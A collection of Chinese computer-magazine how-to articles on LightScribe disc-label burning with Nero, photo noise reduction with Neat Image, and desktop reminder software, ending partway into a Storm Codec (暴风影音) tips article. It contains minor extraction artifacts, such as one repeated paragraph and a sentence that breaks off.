光雕刻录作为刻录的一种，也需要适合的软件来进行操作，最常用的刻录软件Nero就可以帮我们轻松完成光雕盘片的设计操作。Nero OEM带有盘面刻录插件的版本，操作简单，如图13所示。它可以轻松制作盘片的标识面，无论是你自己的照片或是其他的图案、文字都可以随心所欲的进行设计，这种DIY的质量可不一般哦。

目前市场上，光雕刻录机在售出时都附有能够刻录盘面功能的Nero OEM版软件，因此使用起来很方便。

我们的刻录经常采用Nero软件来进行，光雕刻录也属于刻录的范畴，而Nero就支持光雕刻录技术，但是需要我们自己进行光雕插件的下载，下载之后才会增加刻录盘面的性能。

Nero插件的下载地址：http://www.lightscribe.com/downloads/LS_Update_1.4.39.1_.exe

此外，光雕盘片最显著的特点是它的内圈设计独特，盘片的旋转定位以及确定激光的功率都依赖于内圈这个独特之处，它有独特的环状刻录标尺轨道，盘表的刻录需要光头对地址信息进行分析和解码，而后将地址控制信号结果提供给光雕刻录机的控制芯片，再借助制作软件的力量按指定的确切位置进行激光作业，激光越密，图案的颜色就越深，这个特殊的标记圈还可以作为用户识别光雕专用盘片的依据，如图6所示。



先前的淡金黄色光雕专用盘片只能支持灰阶单色刻录的功能，而今天，飞利浦、威宝等商家已经研发出了彩色的光雕盘片，因此，金色的盘片终于不再是唯一的无奈选择，如今的盘面已经有红、黄、蓝、绿、橙等多种颜色，如图7所示。



彩色光雕盘片的原理是在盘片的标签面喷涂红、黄、蓝三个颜色层，而后，通过组合三原色实现彩色的效果。不同的盘片颜色配合不同风格的图片，会有意想不到的效果，你可以选用不同颜色的盘片来分别刻录光盘，分别应用于生日聚会、情人节礼物、以及公司内部资料等等，不同颜色的光雕盘片设计出的不同效果或许会令你心情都随之愉快呢，就连工作起来也会事半功倍哦。

然而，即便是这种彩色的盘片也只不过是提供了一个背景色，我们刻录出来的图案仍旧是单一的色调，也就是说，这并不是真正的彩色盘片。其实，早在2006年初，明基就在台湾的一个产品发布会上展示了他们真正的彩色光盘，如图8所示。


我们说，真正意义上的彩色光雕盘片应该是可以达到即便是单一的背景色也能刻录出彩色的图案和文字效果。这相比上面我们所提到的金色盘片和彩色背景

## 三、精打细算，还是光雕最合算

由于光雕盘标刻录的实现离不开专用的盘片，而专用的盘片较一般盘片而言要稍贵一筹。当然，彩色的光雕盘片则是更加高出传统的刻录光盘。因此，也许有很多人会犹豫不决，到底光雕刻录是否合算呢？其实我们不妨多了解一些普通光盘刻录的成本，做一个简单的比较，答案也就不言自明了。

就我们一般家庭刻录而言，不论是普通刻录机还是光雕刻录机，目前市场上的价钱相差不大，而如果选用盘片打印的话，尽管比光雕刻录盘片色彩丰富，摆脱了即便是彩色盘片也无法实现的单一色调的境遇。但是支持这种打印光盘功能的打印机成本则至少1000元。对于家庭使用来说，刻录光盘的机会和数量有限，因此，没有必要花如此之大手笔来进行投资。此外，如果你选择盘面打印的话，这种喷墨打印不同于通常意义上的打印，它可能要经过多次的打印才能得到想要的效果，而且为了快速成像，还经常会用到烘干等技巧，真的费时费力又费成本啊。所以细细算来，还是光雕更合算。

因为光盘打印机真的是价格不菲，可以进行盘片打印的喷墨式打印机，市场售价一般在几千元到上万元不等，相信为了家庭的一般刻录用途，勤俭持家的你应该不会看好的。

## 四、光雕盘标制作秘笈

- 新手上路

光雕盘的使用方法和普通盘存在一些差异，下面就来给大家介绍一下光雕盘的刻录过程和方法，让你能够真正轻轻松松地刻录属于自己的个性盘片。

首先，光雕盘的数据面刻录完毕后将盘片取出，将数据刻录面朝上放入刻录机，也就是光雕盘片亮银色的那一面，使雕刻面朝向光头，这样才能进行刻录。而后启动Nero光雕程序，从“打印LightScribe标”入口进入盘面设计，一般的光雕刻录机在购买时都附带有Nero OEM版本的刻录套件，而且在这里建议大家一定要安装刻录机附带的Nero套件，因为它的光雕盘面设计插件完整，使用起来也很方便。

鼠标单击“打印LightScribe标”，于是出现光雕程序的主界面，如图9所示。



图9 光雕程序主界面

单击“新建”后，选择“最大”或是其它规格的雕刻界面，如果你选用的是正常的12cm光盘，并希望能看到最大化的雕刻效果，在此建议你选用“最大”规格的界面来进行接下来的操作。

选用“最大”规格后，就能看到图9的这个界面，这就是盘面的图形设计界面，画面的形状、大小等都可以在此进行随意调整。

如果你想在盘面上设计一张自己的靓照的话，下面就要插入你想要雕刻的照片了，你可以单击鼠标右键，选择插入图像。

选定了你要插入的照片后，会出现一个选择框，拖动这个选择框就可以自己调整图像的雕刻位置了，你也可以随心所欲地摆放或是反转图片。

图像位置选定并调整完毕后就可以雕刻盘面了，下面你就可以单击主界面上的光雕刻录图标，选定打印的对比度模式，而后，单击“打印”即可。

这样，经过几分钟的等待，盘片就搞定了，看起来效果还不错吧！

此外，插入图像的时候，有一点大家要注意，如果我们从网上随意下载一些图片作为盘片的背景的话，一定要注意，尽管光盘的直径只有12cm，但是网上的图片却往往不能覆盖整个盘面，网上的图片分辨率大多数是72像素/英寸，而此软件支持的是250像素/英寸的分辨率，因为你可以在此处增加一些文字，这样一来，图文并茂，岂不更妙哉？

- 登峰造极

若是想要你的盘面制作得个性而精彩，也可以对图片进行随意的加工和润色，这当然就离不开运用Photoshop软件了，简单的操作我们暂且不提，单就我们用来做盘面的图片选取来说就有很多学问哦！首先，图片要尽量的大，这样才能更接近软件支持的规格；其次，最好是主体分居两侧或者居一侧的图片，这样一来，更方便避开盘片中间的圆孔，图案看起来也比较舒服，如图10所示。


图10 光雕设计效果图

若是主体居中的图片最好是选择一些背景色彩较为朴素、淡雅的，以免看起来比较生硬。为了更好地与盘片中间的圆孔相协调，我们最好将图片进行横向拉伸然后再使用。

人物在一侧的图片在选用时为了避免僵硬死板，我们最好选取一些人物的侧面图片，如图11所示。对于主体在一侧的图案，我们还可以在另一侧设计一些文字，这样可以弥补另一侧的空白，同时又能加入一些关于盘片的文字提示或歌曲曲目等。


图11 画面布局设置

以上是选择图片的一些建议，如果要让图片达到更好的效果，总是离不开我们的亲自动手加工，由于软件的分辨率是250像素/英寸，所以我们如果选用网上下载来的图片的话，即使它的规格不符合软件的分辨率，我们也可以将其调入Photoshop软件进行修改，再将它的文档大小修改为12cm×12cm，存储完毕后，再在Nero软件中插入修改后的图片，这样一来，图片就会整体放大，于是就可以填充满整张的12cm直径盘面，假设图像还是不够理想的话，你还可以将其进行拉伸、移动等。总之，全看你的个人审美理念了。

- 温馨提示

刻录好了的光雕盘片大家一定要好好保存，最好不要将它置于阳光暴晒的地方，因为紫外线会使光雕盘的表面以及数据记录层遭到破坏，这样，光雕盘面就会褪色，光线强度越强、照射时间越久，盘面的褪色程度也就越强，因此，大家千万不要忘了这一点。

我们刚刚在上面的操作方法介绍中提到了光盘放入刻录机时的朝向问题，事实上，我们不必担心由于粗心忘记翻面，而将光雕盘片的数据面雕刻上了用于标识的图案，这种现象是不可能发生的，因为光雕刻录机在光雕刻录开始前会自动进行盘片放置是否正确的识别，不论是刻录数据面还是刻录标识面时放错了盘片的朝向，机台都会自动出仓，软件也会出现出错的提示，而不会进行错误雕刻的尝试，但是为了避免出现刻录中的麻烦，大家还是最好记住将盘片翻面。

此外，光雕刻录机的打印对比度模式选择不同、盘面所设计的图案复杂程度不同，那么光雕刻录的时间也会不同。一般来讲，盘面的文字单纯、字数少，刻录起来就很容易，如果是复杂的图案占据了整张盘片，那雕刻起来的时间就会长一些，比如刻录一整张光盘图案可能会费时长达30分钟，而刻录一个环状的文字标签仅仅用3分钟就可以完成。刻录时候我们所选用的打印对比度不同，刻录时间也不同，当然刻录的画面效果也不同，适用于刻录文字的草稿模式如果用来刻录图案的话，效果就不太理想了，它的盘面画面颜色较浅、对比度小；而最好模式下刻录出来的画面则对比度高、画面十分清晰、细节的表现也十分精确清晰、字体边缘十分明显、锐利；而正常模式的效果则居于草稿模式和最好模式之间，它的对比度较高，画面较清晰，也能表现出一部分细节内容。至于选用何种模式就要看用户们的心理和时间取向了。至于不同的光雕刻录机，即便是同样的模式和同样的盘面设计，刻录的时间也会存在差异，这就与不同机器的性能等要素相关了。

目前有很多人为光雕刻录所耗费的时间而担忧，其实雕刻时间的长短更多的是取决于光雕盘片的设计，随着科技的进步，相信盘片的变化正在悄然走到我们身边，而刻录的速度也一定会得到不断的提升。

值得一提的是，支持光雕技术的盘片标签都是一次性刻录，图案一经生成便不可擦写，但是增加内容还是很容易、很方便的，光雕技术支持续刻功能，新的图片、文字一样可以续刻在已经雕刻好了的盘片上，而我们需要做的只是读取先前的盘片设计，然后不要忘了一定要清除原有的文本和图像，否则盘片将会二次刻录原来的内容，当然，如果你觉得原来的刻录颜色不够明显，这样的做法也可以帮你将图像记录得更加深刻明显。清除完毕后，添加新的内容再进行盘面的光雕刻录，这样，新的图案或文字就会覆盖在原有的图案上，如果你忘记在上面记录了一些东西，这也不失为一种很好的解决之法。

# 完美消除数码相片噪点——Neat Image

文 / 无蓝 kingjames

数码相片的噪点（noise），是指拍摄的画面中有不规则彩色杂点（特别是在暗部），它会削弱细节表现，影响清晰度和视觉效果！如果你还对噪点没有一个明确的概念，可以在浏览数码相片时，把相片放到足够大，你会发现画面暗部布满细小的糙点，看起来就像是被弄脏了，这就是噪点。

噪点的形成有两个方面的原因，一个是电子器件本身及电子回路本身的电子干扰，一个是产品的缺陷。噪点本身是不可避免的，因为数码相机的感光元件（CCD或CMOS）都存在有热稳定性的问题，所有数码相机上都存在这个问题。一般情况下，少量噪点不会对你的照片造成太大影响。但是，当使用高ISO（如ISO 800）进行拍摄时，噪点就会很明显。另外，在光线不足的情况下（特别是夜间）进行拍摄时，最容易出现大量噪点！

一般来说，数码单反相机对于噪点的控制较好，大多数用户使用的消费级数码相机，噪点情况就更加严重。不过没关系。数码影像的魅力就在于可以很方便地运用后期处理来美化图像，我们可以用软件来给数码相片消除噪点。有读者问：消除噪点（下面简称降噪）的原理是什么？简单地说，降噪就是大幅降低图像的轮廓锐度和细节来达到干净画面的目的，但降噪和保留细节是一个矛盾，降噪的同时也会丢失一部分细节。

很多人都用Photoshop来给数码相片降噪，毫无疑问Photoshop是平面处理软件的龙头老大，功能超级强大。但用Photoshop来降噪，操作起来是很麻烦的，步骤繁多，难度较大，除非你是真正的PS高手，否则很难获得满意的效果。下面介绍一款简单易用，并且可以完美消除噪点的软件：Neat Image。

在开始降噪之前，还要明白两点：一是数码照片都有噪点，或多或少而已，就是以图像细腻著称的佳能数码相机，在ISO 50拍摄时，还是可以在相片的暗部或者本来应该过渡平滑的天空部分看见噪点；另外一点就是并非要把所有噪点都消灭掉，图像才会显得好看，有时噪点正好表现了被摄物体的质感。如何获得两全其美的处理效果呢？使用Neat Image图像降噪软件是完全可以达到这个目的的。

### 1. 输入图像

为了方便操作，建议大家安装汉化版的Neat Image。安装完成后，双击桌面上的Neat Image图标启动软件。默认进入“输入图像”选项卡，单击“打开输入图像”按钮，导入要进行降噪处理的图像（见图1）。如果打开的相片是由数码相机拍摄的，主界面右侧“EXIF信息”框中还会显示该相片的详细EXIF信息。



图1 打开要进行降噪处理的图像为了更好地展示Neat Image的降噪效果，作者在这里特意挑选了一幅噪点比较显著的相片。为了让读者看得更清楚，又使用Photoshop给这幅图像添加了一些杂色，使“噪点”情况更加严重，可以说是惨不忍睹，下面就用它来考验一下Neat Image的降噪效果吧！

### 2. 设备噪点配置

为了对输入图像进行噪点过滤操作，Neat Image需要得到输入图像的噪点特性，这一步工作是降噪的关键所在。

Neat Image的功能是十分强大的，如果要从专业角度出发，要对“设备噪点配置”进行的操作是非常复杂的。这里介绍最常用的设备噪点配置方法，适用于大多数用户：单击“设备噪点配置”选项卡，不改变“自动配置”选项，在图片中颜色较深、噪点比较明显的地方拖动鼠标进行取样，取样框是一个粗线矩形，注意取样框中的颜色要尽可能保持单一，而且取样的范围越大越好，这是用来采样运算的。取样结束后，在取样框中单击鼠标右键，选择“使用选定区域自动配置”命令（见图2），稍等片刻完成。



### 3. 噪点过滤设置

单击“噪点过滤设置”选项卡，再单击“预览”按钮，就可以在图像中的预览框中看到降噪以后的效果。在“噪点过滤设置”面板右边有一些可调节参数，一般情况下，



使用缺省设置可以得到很好的降噪结果，当然可以对这些设置进行额外的调整，以使得过滤后的结果看上去更好。更改参数后，Neat Image会立即进行重新计算，降噪效果可以在预览框中实时查看。单击“过滤设置”的下拉列表框，可以选择噪点过滤的设置。如果选择“默认”或“只移出一半的噪点”，可以做到适度降噪，尽量不破坏图像的细节，效果比较真实；如果选择“移除所有噪点”，则图像会变得很柔和，有艺术照的效果，但看起来会显得不够真实，因为丢失了很多细节；还可以选择“高级”菜单下的命令，进行更细致的选择。这些设置可以根据个人喜好来设定。

### 4. 输出图像

单击“输出图像”选项卡，在右侧“输出图像位深”中，可选24位/48位RGB图像、8位/16位灰度图像，然后单击“应用”按钮给相片进行降噪处理，处理时间跟图像大小和电脑配置有关，当然，图像越大，处理时间越久。等处理结束后，你一定会吓一跳的，因为刚才因为大量噪点的存在而惨不忍睹的图像已经变得非常干净、柔和了，效果非常漂亮！


如果降噪效果不满意，还可以重复上面的（2）、（3）两个步骤，更改各项参数，Neat Image会重新进行计算，直到图像获得满意的效果。

最后单击“保存输出图像”按钮，将处理后的图像保存。可选的输出文件格式为BMP、TIFF和JPEG，如果是JPEG格式，还可以选择压缩比。

为了让读者在纸质读物上对Neat Image的降噪效果有直观的认识，作者将降噪前后的相片局部放大进行了对比，如图5所示，可以看到降噪效果是非常显著的。



其实，Neat Image的效果并非只有降噪这么简单。Neat Image在处理相片时并不是只处理噪点，而是处理相片中所有的像素。只要进行合理的设置，Neat Image就可以让相片看起来更漂亮。比如在人像的处理上，有不少数码摄影爱好者喜欢将年轻女孩的照片进行柔化或者“磨皮”处理，以去掉皮肤上的瑕疵，让皮肤看起来有如护肤品广告那样柔润光泽。在Photoshop中这是个比较耗时和需要技巧的过程，但在Neat Image中，只需要进行简单的设置，效果却会出乎意料的好，您不妨试试看！

## 桌面小秘书
—— 经典桌面提醒工具排队看

文 / TMG WL zxl

“五一”长假刚刚结束，我们又要迎来紧张繁忙的工作日，无论你是身处校园还是埋头于办公桌前，相信都会有许多新的工作亟待处理。也许你要开始为自己制定下半年的目标，在业务上、成绩上，细化自己每周甚至每一天的学习、工作进度。计划复杂了，难免出现遗漏，像是笔者我这般“忘忧草”级别的人物，总是担心自己会忘记重要的事务。为了使大家充分掌握自己的时间，完成各项指标，笔者在此向大家推荐五款各具特色的桌面提醒软件，有了他们，你可以保持最佳的工作状态，保质保量地完成计划，还犹豫什么？Come ON!

## 一、风格独具
—— Active Desktop Calendar 6.5 汉化版

软件大小：3482KB
软件性质：免费版
软件语言：简体中文
适用系统：Win9x/Me/NT/2000/XP/2003
推荐指数：
推荐感言：界面雅观 功能独具
下载链接：http://www.newhua.com/soft/29744.htm

Active Desktop Calendar是爱美人士的首选，它具有唯美的操作界面和独具风格的个性化功能。作为一款综合性很强的桌面提醒软件，你可以运用它在自己的桌面上DIY定制备忘录、任务、闹铃和月历。例如：桌面上的日历你可以选择放置一、二、三个月不等。它能够编辑和整理本地备忘数据，并通过互联网与你的同事和朋友共享信息。你还可以随意改变它的外观，包括字体和颜色、日历的图标等。它支持多种显示方式，文本显示和图标显示可以自由切换。另外它独具备忘录的重现功能，你可以指定日期让其恢复历史提醒项目。选用软件默认的交互式桌面后，你就可以通过点击桌面的特定区域，完成创建闹钟、备忘录、事件的功能，需要时可以对相关的信息进行打印。最后，喜爱装点桌面的用户可以通过软件把图片导入到桌面背景，还可以运用Active Desktop Calendar给自己的屏幕保护程序加上时钟。

安装后发现Active Desktop Calendar在同类软件中属系统内存占用较大者，但是这让它具备了独有的特色功能。运行软件可以看到它的嵌入式界面，右击任务栏托盘的Active Desktop Calendar图标；可完成软件的基本设置工作。

笔者在此向你简要介绍一下Active Desktop Calendar匠心独具的几个功能。

### 1.交互式桌面

右击任务栏右侧的Active Desktop Calendar图标，在出现的菜单中单击“设置”命令，接下来在弹出对话框的“常规”选项卡下，勾选“与桌面交互”一项前面的复选框，即可启动交互式桌面。
启用后软件界面如图1所示，桌面右侧出现了嵌入式的备忘录、任务区域，你只需要使用鼠标双击任务区域，



即可快速完成新建备忘录和新建任务的功能。屏幕当中出现的日历，用户只需用鼠标单击任意日期，即可以将任务添加到这一天，而这些嵌入桌面的功能区域均不会影响其他软件的正常使用。

### 2.事件重现

相信很多朋友都需要在每一天的固定时间完成相同任务，Active Desktop Calendar很好地为我们解决了这个问题。当你添加新的事件时，在出现的对话框中勾选“启用重现”复选框，随后可以设定在“每天”或者“每周”进行重现提醒功能，还可以设置在未来的某一天结束重现。值得称赞的是Active Desktop Calendar的重现功能人性化的设计了每一周的固定日，每月的固定几个星期的固定阶段，每年的固定月份或者星期等多重选项，让你真正实现一次设置，终身无忧。

### 3.让人惊喜的小功能

Active Desktop Calendar有很多让你惊喜的小功能。
（1）可以在改装其面貌的同时，通过“层”功能把自

已设置好的日历导出传输给朋友。
（2）可以把 Google 等知名网站的 Web 日历导入到自己的电脑上面。
（3）对于日历功能，Active Desktop Calendar 的界面制作足以令你赏心悦目，除了在有任务的日期上加装了“钉子”，还在非当前日历和任务事件的区域上都作了透明化处理。
这款软件的缺点是在交互模式下会牺牲一部分桌面空间，不适于桌面凌乱的用户使用，此外在添加事件方面步骤略显繁复，提醒软件的入门级用户需慎重选择。

## 二、短小精悍——Exstora 1.0 汉化版

- 软件大小：673KB
- 软件性质：共享版
- 软件语言：简体中文
- 适用系统：Win9x/Me/NT/2000/XP/2003
- 推荐指数：
- 推荐感言：短小精悍 上手迅速
- 下载连接：http://www.newhua.com/soft/52069.htm

Exstora 是本次介绍软件里面比较小巧的，大小仅 670KB，运行后占用系统内存很低。安装完成后运行软件，可以看到 Exstora 简洁明快的界面 (如图2)。麻雀虽小，五脏俱全，Exstora 本着业精于专的开发初衷，专注于桌面提醒功能，囊括了日历牌、事件提醒、便签制作、事件分类等基本功能。

### 1. Exstora 的界面

Exstora 的界面以表格形式出现，分为三栏：
（1） 第一栏是 Exstora 的日历牌，在它的下方有三个快捷按钮，单击后分别实现“打开/隐藏日历”“上一月”“下一月”的功能；
（2） 第二栏是“事件栏”，在这里单击表格的任意单元格，即可在当前日期下添加新事件和设定提醒时间；
（3） 第三栏则可以对当前存在的事件进行分类，方便用户查询。

### 2. Exstora 的功能按钮

在界面的下方，从左至右六个快捷按钮，涵盖了 Exstora 的全部功能。
（1） 单击“添加新便签”按钮
可以在 Exstora 建立新的便签，建立后便签自动归入分类当中，用户可以随时调用并把它们前置在桌面的任意角落。
（2） 单击“添加新分类”按钮
可以快速建立新的分类，存储事件和便签。
（3） 单击“添加新事件”按钮
可设置新的提醒事件，其中包括事件提醒的次数、主题、内容、是否随开始提醒等。
（4） 单击“搜索”按钮
可搜索当前已存在的备忘便签与事件。
（5） 单击“程序设置”按钮
可以改写软件的相关设置，包括启动选项、提醒声音、皮肤等等。
（6） 单击“帮助”按钮
可以登录软件的官方主页，实现购买等功能。
小提示：右击桌面右下角任务栏的 Exstora 图标，以上功能也可实现。
Exstora 比一般的提醒软件小巧许多，使它拥有比其他同类型软件更为灵巧的反应速度，而且它是一款免费软件。值得一提的是它内置的便签功能和搜索功能，在实际使用中都极大地方便了用户，配合可变的皮肤，相信可以让你在拥有一份好心情的同时，工作上事半功倍，井然有序。

## 三、优佳助手
——DeskTask 1.0 为你的 Outlook 安装第三只眼睛

- 软件大小：521KB
- 软件性质：免费版
- 软件语言：英文
- 适用系统：Win9x/Me/NT/2000/XP/2003
- 推荐指数：
- 推荐感言：轻松查阅 锦上添花
- 下载链接：http://www.newhua.com/soft/38757.htm

虽然现在流行网页式的邮箱系统，但是 Outlook 客户端软件毕竟是一款经典，而且其对于加密软件的发送工作支持性较好，因此仍然备受用户的青睐。虽然 Outlook 本身就可以制定用户日程以及备忘录，但是它的启动相对缓慢，而且占用较大的系统内存，如何轻松搞定 Outlook 的日程查看，还是要交给我们的 DeskTask 伴侣软件。顺利安装后，如果系统发现你没有安装 Microsoft Outlook 会提示安装，进入界面后发现是英文，不习惯的用户可以去下载一个汉化补丁。
从图 3 中可以看到桌面上显示出了今天和明天的日程安排，用户可以单击最上方的日历查看其他日期日程。在下方列出了 Desktask 的任务，另外软件支持背景图片模糊功能，用户可以开启以方便更清晰地查看。这样你就可以随时查看 Outlook 的日程表而不去打开它，把它最小化到系统任务栏托盘，用户可以通过右击 Desktask 图标来完成其他操作。由于 Desktask 是专门为 Outlook 制作的辅助软件，所以其系统资源占用很小，而且反映速度极快，对于 Outlook 的功能，起到了锦上添花的作用，推荐使用 Outlook 的用户一定尝试一下。





## 四、时尚先锋——Rainlendar pro 2.02

软件大小：3126KB
软件性质：共享版
软件语言：英文
适用系统：Win9x/Me/NT/2000/XP/2003
推荐指数：
推荐感言：全能战士 时尚耐用
下载链接：http://www.newhua.com/soft/16961.htm

Rainlendar是目前最具人气的桌面日程提醒软件，它的皮肤可以任意下载更换，界面自由美观，支持配合桌面的模糊功能，万年历显示。在Rainlendar专业版中，还可以读取Outlook的日程表。作为一款专业桌面提醒软件，Rainlendar的功能已然尽善尽美了。下面笔者带大家一起熟悉这款软件的基本操作以及一些极具特色的小功能。

### 1.简易上手

Rainlendar的专业版大小约3MB左右，系统内存占用也很有限。安装后运行软件，你的桌面上会出现三个标签区域，分别是事件（EVENTS）、计划（TO DO）和月历。Rainlendar是一款崇尚自由风格的软件，用户可以在三个标签区域的任意一个区域内按住鼠标左键进行拖拽，将它们放置在桌面的任意位置，如图4是笔者的布置方式。


让我们来看一下三个标签的内容。月历标签清晰明了，当前日期突出显示，对于已经设置事件或计划的日期，系统也会进行区分。双击“TO DO”标签或者其内容区域，可以快速新建事件提醒，在弹出的对话框中，用户可以自由设置提醒的时间、摘要、标题、提醒声音以及选择性的重复提醒。计划完成后，用户可以自行删除题目，对于已经完成的计划，Rainlendar会自动将其灰色化并降序到计划队列的末尾（如图4）。双击“EVENTS”标签，可以建立新事件，你同样可以在弹出的对话框内设置相关项，对于设置为“重要”类别的事件，Rainlendar会自动打上红色，以示醒目。另外，在Rainlendar的设置中你可以设置模糊显示，这样就不会遮盖桌面的其他工作项了。右击任务栏右侧的Rainlendar托盘图标，可以有选择性的显示三个标签。

### 2.导入日程

借助Rainlendar，你可以将其他的日程导入，这样不同日程下的事件均不会被遗漏了。右击Rainlendar的托盘图标，单击“option”命令，选择第二个标签，单击“Add”按钮，即可进行日程添加。在“type(类型)”下拉列表框，我们可以选择格式化日程表，导入Outlook日程表，甚至还可以导入互联网的共享日程表。通过Rainlendar你可以在互联网上进行日程表的传递、共享，集体日程的制定等等。

日程下的事件均不会被遗漏了。右击Rainlendar的托盘图标，单击“option”命令，选择第二个标签，单击“Add”按钮，即可进行日程添加。在“type(类型)”下拉列表框，我们可以选择格式化日程表，导入Outlook日程表，甚至还可以导入互联网的共享日程表。通过Rainlendar你可以在互联网上进行日程表的传递、共享，集体日程的制定等等。

### 3.高级选项

Rainlendar采用了语言式的高级选项设置，入门级的用户可以略过这一部分。在这里，你可以通过“true”和“false”的更改，设置“周末”“星期起始日”等更为详细的选项。
除了上述几个小功能外，Rainlendar还贴心设计了诸如皮肤下载更换、系统热键自定义等多个扩展功能。遗憾的是目前国内的下载站点只提供英文专业版的下载，用户可以自行登陆Rainlendar的官方主页下载多国语言包实现软件汉化。

## 五、全能战士——鱼鱼桌面秀

软件大小：6584KB
软件性质：免费版
软件语言：简体中文
适用系统：WinNT/2000/XP/2003
推荐指数：
推荐感言：简单实用，上手快捷
下载链接： http://www.newhua.com/soft/42557.htm#download

最后的总是最好的，笔者将鱼鱼桌面秀放在本文的结尾，足见它的分量。现代人的生活每天要处理各种各样的事情，要参加各种各样的活动。把这些统统塞在脑袋或者写满一纸都只能让你更加难以理清头绪。这时大家需要一个简单易用、功能强大的工具来帮忙，鱼鱼桌面日历秀正是你需要的。

拥有了鱼鱼桌面日历秀，可以时时掌握自己的待办事项，随时知道自己要作的事情，且将这些事情处理得比以往更好更快，从而节省你最宝贵的时间。
鱼鱼桌面日历秀能帮你管理你的约会提醒、任务列表、待办事项、笔记便签等等，配有强大易用的搜索、数据自动备份和还原功能，支持创建多账户密码登录，保障你的个人信息安全。独有超酷半透明玻璃特效和苹果电脑的金属/阴影效果，让你的桌面立刻焕发绚丽的个性魅力。
此外，还可以根据不同生活领域制作专门的日历，例如：家庭、学校、工作等。且可以为每一个日历类型指定一个专门的图标和颜色，这样你就能简单快速地区分这些日历以及属于这些日历类型的约会提醒、待办事项和便签。有层次性地浏览，可以非常方便地从一个视图中查看你所有的日历，可以从看似纷繁复杂的日常事务中，简单快速的找到你需要的内容（如图5）。



### 1. 创建账号

第一次使用鱼鱼桌面日历秀，需要创建一个私人账号，以便以后安全方便地使用日历秀。这样能防止未经授权的人查看到你的私人信息。启动桌面日历秀，在登录窗口上点击“+”按钮。将会出现新建用户的窗口，在新建用户的窗口中，输入你想要的用户名和密码（输入两次），单击“确定”来完成创建新用户。注意不要忘记密码，如果你忘记了密码将没有其他办法找回。

### 2. 设置自动备份

在初次使用鱼鱼桌面日历秀时，建议你设定好存放自动备份数据的目录和为每个账户备份的个数，从而帮助每次退出桌面日历秀的时候自动备份你的数据文件。

小提示：当最小化鱼鱼桌面日历秀的时候，软件将自动缩小到系统的托盘图标。此时，该软件将在后台继续运行，用户可以单击系统托盘图标来显示或隐藏桌面日历秀。这里要着重强调的是，如果你退出了鱼鱼桌面日历秀，那么软件将不能继续运行。因此，一般而言，你只需要最小化鱼鱼桌面日历秀，软件就可以在后台运行，而且不会占用过多的系统资源。

此外，可以通过设置，让鱼鱼桌面日历秀随开机自动运行，并且自动登录，登录后不显示主窗口。从而实现每次启动计算机时，鱼鱼桌面日历秀就自动加载在后台运行，需要使用时，只需轻点击托盘图标，就可以实现方便快捷使用。

### 3. 软件登录

启动鱼鱼桌面日历秀，输入账号名和密码，单击“确定”按钮，登录软件。如果桌面日历秀只有一个人使用，你可以选上“自动登录”的选项，那么下次你启动鱼鱼桌面日历秀的时候，软件将不再显示登录界面，自动登录到系统中。

### 4. 迷你日历导航

每次启动鱼鱼桌面日历秀，软件都会显示的是“今天”，我们可以通过单击“迷您小日历”切换到你想浏览的日期。迷您日历上端的三个按钮分别代表上个月、今天、下个月，迷您日历顶部指向左右两侧的双箭头代表上一年和下一年。

小提示：切换到“今天”的快捷键是“F5”，切换到“上个月”的快捷键是“F4”或者键盘上的“PageUp”按钮，切换到“下个月”的快捷键是“F6”或者键盘上的“PageDown”按钮。

### 5. 明明白白用日历

鱼鱼桌面日历秀在第一次启动时，自动创建了一个“默认日历”，可以根据用户的需要，为自己生活、工作等各个领域创建专门的日历，例如：创建一个“家庭”日历，创建一个“工作”日历，或者为亲朋好友的生日创建一个“生日”的日历，用来存放所有生日提醒。也可通过给它们赋予代表性的图标和独特的颜色来很容易地区分它们，比如用一个蓝色代表“家庭”日历。

创建好日历，用户可以将约会提醒、待办事项、笔记便签分门别类，例如：你可以创建一个属于工作日历的待办事项“下午5点见客户”，一个属于家庭日历的约会“早九点家庭出游”。

#### （1）创建新日历

要创建一个新日历，只需要在日历列表的右键菜单中选择“新建”。也可双击日历列表的空白处，新建日历的对话框将会弹出，通过单击图标来更换图标，单击颜色框来更换颜色，并为该日历命名。

#### （2）如何区分不同的日历

鱼鱼桌面日历秀为每个日历提供一个默认选上的勾选框，当你去掉这个勾选的时候，该类型日历的所有所属约会提醒、待办事项、便签将隐藏起来。方便的在同一个视图里层次清晰的查看和管理你的所以信息，套用一句广告词“工作一个号，生活一个号”，双网双待啊^_^!

举个例子，当你勾选上“中国节日”日历的时候，所有属于中国节日日历类型的约会提醒、待办事项、笔记便签将显示出来。

而当你去掉“中国节日”日历的勾选的时候，所有属于中国节日日历类型的约会提醒、待办事项、笔记便签将隐藏起来。

### 6. 约会日程提醒功能

鱼鱼桌面日历秀为用户提供了约会提醒功能，创建一个约会，并且选上了“需要提醒”的选项，软件将在指定的时间提醒用户。

举个例子，设定提醒时间为每天中午12:00午餐，所属日历为“家庭”类型。日历秀将于每天中午12:00弹出该提醒。弹出提醒后，你可以选择“5分钟后再提醒”或者打开该提醒查看和修改。如果你接受了这个提醒了，就单击“清除”按钮，该提醒即完成。

### 7. 如何使用待办事项功能

鱼鱼桌面日历秀提供了的待办事项功能，它会在用户设定的时间提醒用户事情的进展情况。

（1） 单击主窗口上方的“待办事项”按钮，进入待办事项页面，然后在待办事项工具栏中单击“新建”按钮，或者在右键菜单中选择“新建”。
（2） 进入“新建待办事项”对话框窗口，可以设定此事项的起止日期、完成百分比、提醒日期时间音乐等。
（3） 选择菜单中的“查看所有待办事项”就能在搜索栏看到所有待办事项的列表。
其次、你可以单击工具栏上的“过滤”按钮，让待办事项按状态过滤显示。

# 万能播放器：最新暴风影音实用技巧大搜捕

文 / kingjames 肥猫

免费！全能！几乎可以播放所有的多媒体格式，不用再在你的电脑里同时装上 Windows Media Player、RealPlayer 和一大堆解码器了。这些优点让暴风影音大受欢迎，成为了名副其实的装机必备软件，并获得了“万能播放器”的美名。据称暴风影音已经拥有了 8000 万用户！相信大部分用户都会使用暴风影音的基本功能，但你确信自己真的会用暴风影音吗？其实暴风影音的功能是非常强大的，非常值得去深度挖掘。本文讲解的这些实用技巧，将助你更进一步成为多媒体播放的高手！

说明：暴风影音版本很多，如非特殊说明，本文的内容都是在暴风影音 2007 全功能完美版 7.02.01 基础上撰写的；另外，本文讲述的实用技巧可以应用于绝大多数的暴风影音版本。暴风影音的官方网址为：www.baofeng.com。

## 一、加载字幕

很多从网上下载的影片都没有字幕，尤其是一些刚刚发布的国外影片，这时暴风影音加载字幕的功能就大派用场了。暴风影音加载字幕的方法分两种：

### 1. 自动加载

